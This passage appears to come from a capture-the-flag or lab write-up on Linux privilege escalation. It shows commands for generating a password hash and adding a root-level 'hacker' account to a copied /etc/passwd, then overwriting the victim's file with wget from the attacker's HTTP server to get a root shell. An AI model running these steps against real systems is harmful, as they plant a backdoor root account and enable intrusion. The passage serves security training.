


5.3 Create a new user
1. On your Kali Machine create a user and its password hash.
$openssl passwd -1 -salt hacker 123456
Output:
$1$hacker$6luIRwdGpBvXdP.GMwcZp/
This is going to help us create an entry of our user in the /etc/passwd file of the target machine.
3. Copy from the victim machine the content of “/etc/passwd” in file called “passwd” in the Kali Machine.
On the victim machine.
$www-data@ubuntu:/home/raj$cat /etc/passwd
On the Kali Machine.
Create a file with the content you copied.
4. Add the following line to the file.
“hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0:root:/root:/bin/bash”
5. Run python HTTP server for transferring this file into victim's machine on your Kali Machine.
$python -m SimpleHTTPServer
6. Copy the file to the victim machine. Run on the victim shell the following commands to download the “passwd” file from our Kali Machine inside the “/etc” directory which will overwrite the existing “passwd” file.
$cd /home/raj
$cd /etc
$wget -O passwd http://192.168.12.10:8000/passwd
$cd /etc
$wget -O passwd http://192.168.12.10:8000/passwd
Output:

7. Try to access swith to user “hacker” (Password=123456).
I have no name!@ubuntu:/etc$su hacker
Output:

We got a root shell.